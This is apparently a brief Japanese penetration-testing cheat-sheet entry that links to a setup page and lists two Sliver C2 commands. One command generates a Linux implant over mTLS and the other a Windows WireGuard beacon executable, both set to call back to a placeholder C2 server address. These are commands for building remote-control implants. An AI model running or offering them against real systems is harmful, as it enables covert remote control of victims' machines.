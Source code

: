 サーバ・クライアントの立ち上げ方は[[PT チートシート/0.インフラ/Sliver C2|こちら]]
```sh
sliver > generate --mtls C2-Server-IP:PORT --os linux --arch amd64 --save /tmp/
sliver > generate beacon --wg C2-SERVER_IP:PORT --os windows --save /tmp/agt.exe
```